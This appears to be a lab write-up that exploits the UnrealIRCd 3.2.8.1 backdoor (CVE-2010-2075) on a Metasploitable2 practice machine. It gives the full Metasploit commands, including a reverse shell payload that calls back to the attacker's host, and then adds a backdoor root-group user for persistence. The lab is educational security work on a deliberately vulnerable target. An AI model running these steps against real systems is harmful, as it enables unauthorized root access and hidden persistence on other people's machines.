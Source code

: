 # Exploiting UnrealIRCd 3.2.8.1 Backdoor (CVE-2010-2075)

UnrealIRCd 3.2.8.1 is a widely used IRC daemon that was discovered to have a backdoor vulnerability allowing remote attackers to execute arbitrary commands without authentication. This backdoor was introduced maliciously into the source code, affecting many deployments globally.

In this lab, we will exploit the UnrealIRCd backdoor on the Metasploitable2 target machine to gain unauthorized remote shell access. Successfully exploiting this vulnerability demonstrates the risks of using compromised or outdated software and the importance of patch management.

We will begin by verifying the service and version with Nmap, then use Metasploit’s `unreal_ircd_3281_backdoor` module to obtain a root shell, and finally confirm our access by interacting with the target system.

## 1. Network Configuration

* **Metasploitable2 (Target IP):** `192.168.100.10`
* **Kali Linux (Attacker IPs):**
    * `192.168.100.5` (for attacking Metasploitable2)
    * `172.24.129.21` (for SSH access)

## 2. Exploitation Steps

### 2.1: Service Enumeration (Nmap Scan)

* **Objective:** Confirm the presence and version of the UnrealIRCd service on the target machine to verify it is vulnerable. Port 6667 is the default IRC port where UnrealIRCd typically runs.

* **Command Executed:**
    ```bash
    sudo nmap -sV -p 6667 192.168.100.10
    ```

* **Results:**
    The Nmap scan confirmed that port `6667` was open on `192.168.100.10`. Crucially, the service running on this port was identified as **UnrealIRCd 3.2.8.1**, which is the specific vulnerable version targeted by this exploit.
    
    ![Nmap Scan Result](images/Scan.png) 

### 2.2: Metasploit Exploit Search

* **Objective:** Launch Metasploit and search for available exploits related to UnrealIRCd.

* **Commands Executed:**
    ```bash
    msfconsole
    search unrealircd
    ```

* **Results:**
    The search returned the module `exploit/unix/irc/unreal_ircd_3281_backdoor`, which directly targets a backdoor vulnerability in UnrealIRCd versions 3.2.8.1. This exploit allows remote code execution by connecting to the IRC service and sending a specially crafted payload.

    ![Metasploit Search Result](images/Search.png)

### 2.3: Configure and Execute the Exploit

* **Objective:** Configure the exploit module to target `192.168.100.10` and set up a reverse shell payload to gain access to the system.

* **Commands Executed:**
    ```bash
    use exploit/unix/irc/unreal_ircd_3281_backdoor
    set PAYLOAD cmd/unix/reverse
    set RHOSTS 192.168.100.10
    set LHOST 192.168.100.5
    set LPORT 4444
    run
    ```

* **Results:**
    The exploit successfully initiated a reverse TCP handler on `192.168.100.5:4444`, and a command shell session was opened (`192.168.100.5:4444 -> 192.168.100.10:xxxxx`). This confirms successful remote code execution.

    ![Exploit Run Result](images/Exploit.png) 

### 2.4: Verify Shell Access and Privileges

* **Objective:** Confirm successful remote shell access and identify the privilege level obtained.

* **Commands Executed (in the newly obtained shell):**
    ```bash
    whoami
    id
    ```

* **Results:**
    The `whoami` command returned `root`, and the `id` command confirmed `uid=0(root) gid=0(root)`. This verified that root-level access was successfully achieved on the Metasploitable2 system.

    ![Root Access Proof](images/whoami.png) 

### 2.5: Establish Persistence by Adding a Backdoor User

* **Objective:** Create a new user account with root privileges on Metasploitable2, allowing for future authenticated access even if the initial exploit vector is mitigated.

* **Commands Executed (in the root shell):**
    ```bash
    useradd -m -g root -s /bin/bash bdnoah
    echo "bdnoah:bdpass" | chpasswd
    ```

* **Verify the user creation and privileges:**
    ```bash
    cat /etc/passwd | grep bdnoah
    ```

* **Results:**
    The `useradd` command successfully created the `bdnoah` user with its home directory and assigned it to the `root` group. The `chpasswd` command set its password. Verification via `cat /etc/passwd` confirmed the user `bdnoah` with `GID=0` (root privileges).

    ![New User Creation](images/newuser.png)

## 3. Conclusion

This exercise successfully demonstrated the exploitation of the UnrealIRCd 3.2.8.1 backdoor (CVE-2010-2075) on the Metasploitable2 target system. A remote command shell with root-level privileges was obtained. This root-level access was leveraged to establish persistence by creating a new user account with root privileges.

This lab highlights the critical importance of timely patch management and the severe risks associated with running outdated or compromised software. Unpatched vulnerabilities, even in seemingly obscure services like IRC daemons, can provide attackers with full administrative control over a system, leading to significant security breaches.